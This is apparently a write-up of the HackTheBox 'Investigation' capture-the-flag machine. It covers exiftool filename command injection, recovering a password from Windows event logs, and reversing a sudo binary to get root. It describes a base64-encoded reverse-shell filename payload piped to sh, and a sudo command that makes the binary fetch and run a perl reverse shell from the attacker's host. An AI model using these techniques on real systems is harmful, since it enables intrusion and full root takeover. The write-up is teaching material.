









# Summary
`Investigation` is a Medium level difficulty Linux machine from [HackTheBox](https://app.hackthebox.com/machines/Investigation). It's running `SSH` service and a Web application that analyzes the images uploaded to the server. We get __RCE__ on the Web application and get the foothold as a low privilege user. After reading a `Winows Event Log` , we found a password that's put as username by mistake and it can used for `SSH` authentication. For privilege escalation, we found that we could run a binary as _root_. With some basic Reverse Engineering, we've analyzed what it does and got shell access as _root_. 


# Initial Scan
Firstly, we run a `nmap` scan on the target with version scan(`-sV`) and default script(`-sC`) options. 
```nmap
nmap -p- -sV -sC 10.10.11.197
```

```Output
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f1e6306aa6ebbcc0d19d4152674c6d9 (RSA)
|   256 274520add2faa73a8373d97c79abf30b (ECDSA)
|_  256 4245eb916e21020617b2748bc5834fe0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://eforenzics.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

It looks like `eforenzics.htb` is the hostname we need to add to hosts file. We could easily do it with your favourite text editor. I'm using `Sublime Text` so I'll be using `subl`. 
`sudo subl /etc/hosts`


Now, we can start enumerating the website.


# Enumerating Webapp
When we're browsing the web application, we can see that they're hosting a "Free Image Forensics Service" on `service.html`.

Upon checking the service, it looks like we could upload a file to their server. We could try uploading a PHP reverse shell file but the service accepts only PHP files so it's not really useful here. We'll try uploading a valid image file to the server to see what the service is actually doing. 

So, the "Image Forensics Service" is actually just printing out metadatas of the uploaded image using `exiftool`. We can also see the version of `exiftool` that the application is using. With a quick google search, we've found that `exiftool` versions < 12.38 is vulnerable to a **Command Injection** vulnerability through a crafted file name. See [CVE-2022-23935](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429) for more info.


# Exploiting Webapp
In order to exploit the command injection vulnerability of `exiftool`, we need to craft a filename for the image file that we'll be uploading. The filename needs to be end with a pipe ( `|` ) to get the command injection works. Another thing to remember here is that we can't have forward slashes ( `/` ) in filenames because it's a directory seperator. And a lot of reverse shell payload has forward slashes ( `/` ) so we need to do some encodings. To make a filename for the command injection, we'll follow these steps -
1. Encode our reverse shell payload in base64
2. Make a payload in the format - `echo base64-encoded-payload|base64 -d|sh`
3. Change the name of the image file to be the formatted payload from step 2
4. End the name of the file with a pipe ( `|` )

After uploading the image to the server, we should get a reverse shell on our netcat listener.


# Analyzing Outlook mail
Before doing anything else, I like to get a stabalized tty shell just in case we need to use `su` or `Ctrl+C` for interrupting programs we'd be running. 
```Stabalize
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm-256color
*CTRL+Z to make the shell go background*
stty raw -echo; fg
stty rows 35 columns 167; reset
```

Now that we have a stabalized shell, we'll start enumerating what we can do for lateral movement in the system. By reading `/etc/passwd` file and checking the `/home` directory, we've found another user in the system called _smorton_. Let's find if there's a file or a directory own by _smorton_

So, we've found a **Microsoft Outlook Message** file with readable permissions for everyone. We can transfer this file to our own machine by copying it to the webapp directory or hosting a web server in the `/usr/local/investigation` directory. 

We could easily download the file to our Kali machine using `wget` but Kali doesn't have a tool pre-installed for opening Outlook message files. So, we'll need to install a tool called `msgconvert`. Here's how to install it -
```bash
sudo apt-get update
sudo apt-get install libemail-outlook-message-perl libemail-sender-perl
```

When we finished installing the package, we could run `msgconvert file.msg` to get a human-readable `file.eml` file. Now that the file is readable, we could open our favourite text editor see the contents inside it and it looks like the mail has an attached `.zip` file encoded in base64. Trying to decode it with `base64` returns an error message saying "Invalid Input". This is probably happening because of line breaks and format differents between **DOS** system and **UNIX** systems. We can use tools like `dos2unix` and `unix2dos` to make it work with `base64` tool on your system.
```bash
dos2unix logs.zip.b64
base64-d logs.zip.b64 > logs.zip
```

After decoding the base64 decode string, we'll get a `.zip` file and we could use `unzip` to see the contents of the file easily. So, it's an `.evtx` file which is **Windows Event Log** file compressed. We could use the event viewer program on our Windows host machine or we could can use tools like [chainsaw](https://github.com/WithSecureLabs/chainsaw).  We can see how to use this tool in the walkthrough by [**IppSec**](https://www.youtube.com/@ippsec). For now, we'll install another tool for converting this file into either a `.txt` file or a `.xml` file. It's called `evtxexport` and it's in the `libevtx-utils` package.
```bash
sudo apt-get update
sudo apt-get install libevtx-utils
evtxexport security.eml > security.txt
evtxexport -f xml security.eml > security.xml
```


# Analyzing Windows Event Logs
The attached Windows event log file is a huge one with 22,000+ logs and about 15MB in file size so it's impossible to read every logs in details. We could scan the file to roughly get the idea of what are being recorded as logs.

Many different stuffs are being logged including authenticating processes. It's very common for users to enter their passwords in the username field by accident so we could filter the usernames to see if there's password in there. 
```bash
cat security.xml | grep "TargetUserName" | sort -u
```
By running this command, we'll see that there's a string that looks like a password. We can login to the `SSH` server with the user we found, _smorton_, and this string we found. With this, we finally got `SSH` shell as user _smorton_ and the user flag in the `/home/smorton` directory



# Enumerating for Privilege Escalation
Since we already got `SSH` shell and the password for the current user, we can start enumerating for privilege escalation. As a rule of thumb, whenever we have the password of a user, we should try running `sudo -l` to see if we have permission to run something as another user, preferably as _root_. 


It looks like we can run a binary called `binary` (duh) as _root_ with no password required. But when we run it, it exits immediately with an output saying "Exiting...". **But** it's readable by everyone! It might not sound interesting to have a readable permissions for a __compiled__ binary but the fact the we could read it means we could transfer it to our Kali machine and analyze it locally.
```bash
python3 -m http.server --directory=/usr/bin   # Victim machine
wget http://eforenzics.htb/binary -O binary   # Attacker machine
```

Now that we got the binary on our machine, we can start analyzing it. We know that the `binary` exits with a stdout but let's see what's happening with `ltrace` -
```ltrace
ltrace ./binary
```


It's just the exit output and nothing more. That wasn't really helpful... Let's try `strings` to see the readable strings in `binary` file -
```strings
strings binary
```


We found a piece of string, `perl` command and removing a file with the same name as the piece of string we found at first. We could pass a `perl` script as an argument and run the `binary` but it's still the same, exiting with the same output. 

So, we only have one option which is to decompile and do some reverse engineering on the `binary`. For this task, we'll be using `radare2` tool since it's lightweighted and it's pre-installed on Kali. Here's some mini cheatsheet for `radare2` -
```radare2
r2 -d ./binary
aaa      # Analyze the program
s main   # Seek the start of main()
pdf      # Print current function
VV       # Graphical view of current function
```

After spending hours of reading and begging ChatGPT, I was finally able to guess what the `binary` is doing. Here's a pseudocode of what `binary` is doing -
```pseudocode
if (number of arguments == 2):
	continue
else:
	exit

if (uid == 0):
	continue
else:
	exit

if (argument_list[2] == "lD------Qn")
	curl argument_list[1] -o file
	perl ./file
else:
	exit
```

So, all we need to do is write a `perl` reverse shell program on our machine, host a webserver and then run `sudo /usr/bin/binary http://my-ip/rev.pl "lD------Qn"` and we should get a reverse shell as _root_ on our netcat listener. We could use `perl` reverse shell by pentestmonkey, it can be found in `/usr/share/webshells/perl/` directory. 



# References
1. [radare2 for dummies](https://cryptokait.com/2021/03/03/how-to-re-with-radare-when-you-know-nothing/)
2. [Investigation Walkthrough by IppSec](https://youtu.be/X5hVEuWmehk)
